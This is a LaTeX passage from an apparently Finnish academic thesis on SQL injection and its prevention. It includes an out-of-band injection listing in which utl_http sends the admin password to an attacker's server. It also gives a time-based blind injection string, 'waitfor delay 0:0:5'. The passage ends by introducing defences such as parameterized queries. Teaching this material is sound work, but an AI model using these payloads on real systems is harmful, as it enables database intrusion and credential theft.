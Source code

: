 \documentclass[finnish]{tktltiki2}
\theoremstyle{definition}
\theoremstyle{remark}
\begin{document}
	Selaintiedot saadaan HTTP-pyynnön User-Agent kentästä. Hyökkääjä voi tällaisessa tapauksessa lähettää User-Agent kentässä haitallista koodia. Jotta hyökkääjä saisi vastauksen suoritetusta kyselystä, hän voi ohjata vastauksen esimerkiksi oman palvelimensa logeihin. Tämä onnistuu, mikäli sovellus saadaan suorittamaan seuraavanlainen kysely: 
	
	\begin{lstlisting}[language=sql]
	utl_http('http://www.hyokkaajansivu.fi/injections/' || 
	SELECT password
	FROM User 
	WHERE username = 'admin'
	)
	\end{lstlisting}
	Oletetaan että käyttäjän admin salasana on "pass\linebreak word123". Injektion onnistuessa tietokanta hakee ensin käyttäjän admin salasanan, jonka jälkeen se suorittaa HTTP-pyynnön osoitteeseen "http://hyokkaa\linebreak jansivu.fi/injections/password123". Tällöin hyökkääjän palvelimen lokitiedostossa näkyy seuraavanlainen merkintä:\textit{
	GET "/injections/admininpassword", 200}. 

	
	Sadeghianin ja kollegoiden artikkelin mukaan kyselyn tulos voidaan ohjata palvelimen sijaan esimerkiksi hyökkääjän sähköpostiin. Koska hyökkääjä sai vastauksen eri reittiä kun oli kyselyn lähettänyt, hän on tällöin suorittanut out-of-band injektion.

	Sokeassa injektiossa hyökkääjä ei saa kyselyn palauttamaa tulostetta selville mitään reittiä. Hyökkääjä voi päätellä hyökkäyksen onnistumisen esimerkiksi siitä kuinka nopeasti sivu latautuu. Lisäämällä injektoituun sql-kyselyyn komennon "waitfor delay 0:0:5", tietokanta odottaa 5 sekuntia ennen kuin se palauttaa tuloksen. Tästä voidaan päätellä injektion onnistuneen \cite{regexp}. Hyökkääjä voi myös tarkkailla vaikuttaako hänen tekemänsä hyökkäykset sovelluksen toimintaan tai ulkoasuun jollain tapaa.
	
	\section {Tietoturvallisen ohjelman toteutus}
		SQL-Injektioiden estämiseen on kehitetty monenlaisia ratkaisuja. Osa ratkaisuista hankaloittaa hyökkäämistä, kun taas osa menetelmistä suojaa ohjelman SQL-injektioilta täysin. 
	\subsection{Käyttäjän syötteen käsittely}
		SQL-Injektion välttämiseksi käyttäjän syötteet on tarkastettava. Vaaralliseksi epäilty syöte voidaan käsitellä vaarattomaksi, tai jättää suorittamatta kokonaan. Oikeaoppisella syötteenkäsittelyllä voidaan suojautua SQL-injektiolta täysin \cite{prepared}. Tässä kappaleessa esitellään kolme erilaista tapaa käsitellä käyttäjän syötettä: datan validointi, korvaaminen ja parametrisoidut kyselyt.
		
\end{document}
